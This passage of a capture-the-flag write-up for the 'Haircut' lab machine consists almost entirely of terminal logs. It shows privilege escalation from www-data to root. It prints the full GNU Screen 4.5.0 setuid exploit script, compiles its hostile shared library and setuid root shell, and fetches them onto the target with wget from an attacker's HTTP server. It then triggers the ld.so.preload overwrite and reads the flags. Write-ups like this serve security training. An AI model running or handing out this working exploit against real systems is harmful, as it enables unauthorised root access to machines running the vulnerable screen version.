-rw-r--r-- 1 root root 112 Jan 10  2014 /etc/apg.conf
-rw-r--r-- 1 root root 497 May  4  2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 350 May 15  2017 /etc/popularity-contest.conf
-rw-r--r-- 1 root root 144 May 15  2017 /etc/kernel-img.conf
-rw-r--r-- 1 root root 7788 May 15  2017 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 14867 Apr 12  2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 338 Nov 18  2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 771 Mar  6  2015 /etc/insserv.conf
-rw-r--r-- 1 root root 34 Jan 27  2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 604 Jul  2  2015 /etc/deluser.conf
-rw-r--r-- 1 root root 2969 Nov 10  2015 /etc/debconf.conf
-rw-r--r-- 1 root root 703 May  6  2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 3028 Feb 15  2017 /etc/adduser.conf
-rw-r--r-- 1 root root 191 Jan 19  2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 6816 Nov 30  2016 /etc/overlayroot.conf
-rw-r--r-- 1 root root 280 Jun 20  2014 /etc/fuse.conf
-rw-r--r-- 1 root root 2084 Sep  6  2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 1260 Mar 16  2016 /etc/ucf.conf
-rw-r--r-- 1 root root 100 Nov 25  2015 /etc/sos.conf
-rw-r--r-- 1 root root 552 Mar 16  2016 /etc/pam.conf


Any interesting mail in /var/mail:
total 8
drwxrwsr-x  2 root mail 4096 Feb 15  2017 .
drwxr-xr-x 14 root root 4096 May 16  2017 ..


### SCAN COMPLETE ####################################
www-data@haircut:/dev/shm$
```

```sh
www-data@haircut:/dev/shm$ find / -perm -4000 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root   root         30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root   root         40152 Dec 16  2016 /bin/mount
-rwsr-xr-x 1 root   root        142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root   root         44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root   root         44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root   root         40128 May  4  2017 /bin/su
-rwsr-xr-x 1 root   root         27608 Dec 16  2016 /bin/umount
-rwsr-sr-x 1 daemon daemon       51464 Jan 14  2016 /usr/bin/at
-rwsr-xr-x 1 root   root         49584 May  4  2017 /usr/bin/chfn
-rwsr-xr-x 1 root   root         40432 May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root   root         75304 May  4  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root   root         39904 May  4  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root   root         32944 May  4  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root   root         54256 May  4  2017 /usr/bin/passwd
-rwsr-xr-x 1 root   root         23376 Jan 18  2016 /usr/bin/pkexec
-rwsr-xr-x 1 root   root       1588648 May 19  2017 /usr/bin/screen-4.5.0
-rwsr-xr-x 1 root   root        136808 Jan 20  2017 /usr/bin/sudo
-rwsr-xr-- 1 root   messagebus   42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root   root         10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root   root        428240 Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root   root         14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root   root        208680 Apr 29  2017 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root   root         38984 Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
www-data@haircut:/dev/shm$
```

```sh
root@kali:~/haircut# searchsploit screen

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Advanced Desktop Locker 6.0.0 - Lock Screen Bypass                                                                                                                  | exploits/windows/local/40995.txt
Amateur Photographer's Image Gallery - 'fullscreen.php?albumid' SQL Injection                                                                                       | exploits/php/webapps/37963.txt
Apple Safari - GdiDrawStream Blue Screen of Death                                                                                                                   | exploits/windows_x86-64/dos/18275.txt
Apple iOS 7.0.2 - Sim Lock Screen Display Bypass                                                                                                                    | exploits/ios/webapps/28978.txt
Aqua Real Screensaver - '.ar' Buffer Overflow                                                                                                                       | exploits/windows/dos/34094.pl
Aruba MC-800 Mobility Controller - Screens Directory HTML Injection                                                                                                 | exploits/multiple/remote/30771.txt
ClipShare Pro 4.0 - 'fullscreen.php' Cross-Site Scripting                                                                                                           | exploits/php/webapps/32526.txt
CommView 6.1 (Build 636) - Local Blue Screen of Death (Denial of Service)                                                                                           | exploits/windows/dos/12356.c
Crush FTP 5 - 'APPE' Remote JVM Blue Screen of Death (PoC)                                                                                                          | exploits/windows/dos/17795.py
ELS Screen to Screen 1.0 - Multiple Password Vulnerabilities                                                                                                        | exploits/osx/local/19437.txt
GNU Screen 3.9.x Braille Module - Local Buffer Overflow                                                                                                             | exploits/unix/local/21414.c
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                                       | exploits/linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                                                 | exploits/linux/local/41152.txt
Juergen Weigert screen 3.9 - User Supplied Format String                                                                                                            | exploits/bsd/local/20191.c
Juniper NetScreen 5.0 - VPN 'Username' Enumeration                                                                                                                  | exploits/hardware/remote/26168.txt
LG G4 - Touchscreen Driver write_log Kernel Read/Write                                                                                                              | exploits/android/dos/41353.txt
League of Legends Screensaver - Insecure File Permissions Privilege Escalation                                                                                      | exploits/windows/local/39903.txt
League of Legends Screensaver - Unquoted Service Path Privilege Escalation                                                                                          | exploits/windows/local/39902.txt
Microsoft Internet Explorer - JavaScript screen[ ] Denial of Service                                                                                                | exploits/windows/dos/7710.html
Microsoft Windows NT 4.0/SP1/SP2/SP3/SP4 / NT 3.5.1/SP1/SP2/SP3/SP4/SP5 - Screensaver                                                                               | exploits/windows/local/19359.txt
Microsoft Windows Server 2003 - '.EOT' Blue Screen of Death Crash                                                                                                   | exploits/windows/dos/9417.txt
Microsoft Windows Vista - Access Violation from Limited Account (Blue Screen of Death)                                                                              | exploits/windows/dos/6671.c
Microsoft Windows Vista/7 - SMB2.0 Negotiate Protocol Request Remote Blue Screen of Death (MS07-063)                                                                | exploits/windows/dos/9594.txt
Microsoft Winows 7 - Keyboard Layout Blue Screen of Death (MS10-073)                                                                                                | exploits/windows/dos/18140.c
NetScreen ScreenOS 4.0.1/4.0.3 - TCP Window Size Remote Denial of Service                                                                                           | exploits/windows/dos/22970.txt
PeerBlock 1.1 - Blue Screen of Death                                                                                                                                | exploits/windows/dos/18475.c
Screen 4.0.3 (OpenBSD) - Local Authentication Bypass                                                                                                                | exploits/linux/local/4028.txt
ScreenOS 1.73/2.x - Firewall Denial of Service                                                                                                                      | exploits/sco/dos/20532.txt
Sun Microsystems SunScreen Firewall - Privilege Escalation                                                                                                          | exploits/multiple/remote/16041.txt
XBMC 8.10 - 'takescreenshot' Remote Buffer Overflow                                                                                                                 | exploits/windows/remote/8339.py
Yasr Screen Reader 0.6.9 - Local Buffer Overflow                                                                                                                    | exploits/linux/local/39734.py
xscreensaver 5.01 - Arbitrary File Disclosure Symlink                                                                                                               | exploits/multiple/local/9097.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/haircut#
root@kali:~/haircut# searchsploit -m exploits/linux/local/41154.sh

  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154/
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators

Copied to: /root/haircut/41154.sh


root@kali:~/haircut#
```

[``41154.sh``](https://www.exploit-db.com/exploits/41154/)

```sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

```sh
www-data@haircut:/tmp$ uname -a
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@haircut:/tmp$
```

```sh
u64@u64-virtual-machine:~$ uname -a
Linux u64-virtual-machine 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
u64@u64-virtual-machine:~$
```

```sh
u64@u64-virtual-machine:~$ cat libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
u64@u64-virtual-machine:~$
```

```sh
u64@u64-virtual-machine:~$ gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
u64@u64-virtual-machine:~$
```

```sh
u64@u64-virtual-machine:~$ cat rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
u64@u64-virtual-machine:~$
```

```sh
u64@u64-virtual-machine:~$ gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
u64@u64-virtual-machine:~$
```

```sh
u64@u64-virtual-machine:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.0.0.63 - - [18/Feb/2018 19:00:22] "GET /libhax.so HTTP/1.1" 200 -
10.0.0.63 - - [18/Feb/2018 19:00:31] "GET /rootshell HTTP/1.1" 200 -
```

```sh
root@kali:~/haircut/exploit# wget 10.0.0.69:8000/libhax.so
--2018-02-18 22:00:22--  http://10.0.0.69:8000/libhax.so
Connecting to 10.0.0.69:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8272 (8.1K) [application/octet-stream]
Saving to: ‘libhax.so’

libhax.so                                          100%[================================================================================================================>]   8.08K  --.-KB/s    in 0s

2018-02-18 22:00:22 (102 MB/s) - ‘libhax.so’ saved [8272/8272]

root@kali:~/haircut/exploit# wget 10.0.0.69:8000/rootshell
--2018-02-18 22:00:31--  http://10.0.0.69:8000/rootshell
Connecting to 10.0.0.69:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8816 (8.6K) [application/octet-stream]
Saving to: ‘rootshell’

rootshell                                          100%[================================================================================================================>]   8.61K  --.-KB/s    in 0s

2018-02-18 22:00:31 (146 MB/s) - ‘rootshell’ saved [8816/8816]

root@kali:~/haircut/exploit#
```

```sh
root@kali:~/haircut/exploit# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.24 - - [18/Feb/2018 22:07:02] "GET /libhax.so HTTP/1.1" 200 -
10.10.10.24 - - [18/Feb/2018 22:07:13] "GET /rootshell HTTP/1.1" 200 -
```

```sh
www-data@haircut:/tmp$ wget 10.10.14.11:8000/libhax.so
--2018-02-19 04:07:23--  http://10.10.14.11:8000/libhax.so
Connecting to 10.10.14.11:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8272 (8.1K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so                                          100%[================================================================================================================>]   8.08K  --.-KB/s    in 0s

2018-02-19 04:07:23 (150 MB/s) - 'libhax.so' saved [8272/8272]

www-data@haircut:/tmp$
www-data@haircut:/tmp$ wget 10.10.14.11:8000/rootshell
--2018-02-19 04:07:34--  http://10.10.14.11:8000/rootshell
Connecting to 10.10.14.11:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8816 (8.6K) [application/octet-stream]
Saving to: 'rootshell'

rootshell                                          100%[================================================================================================================>]   8.61K  --.-KB/s    in 0s

2018-02-19 04:07:34 (195 MB/s) - 'rootshell' saved [8816/8816]

www-data@haircut:/tmp$
```

```sh
www-data@haircut:/tmp$ chmod +x rootshell
```

```sh
www-data@haircut:/etc$ cd /etc/
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
www-data@haircut:/etc$ screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

www-data@haircut:/etc$ /tmp/rootshell
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
#
```

```sh
# cat /root/root.txt
4cfa26d84b2220826a07f0697dc72151
#
```

```sh
# cat /home/maria/Desktop/user.txt
0b0da2af50e9ab7c81a6ec2c562afeae
#
```
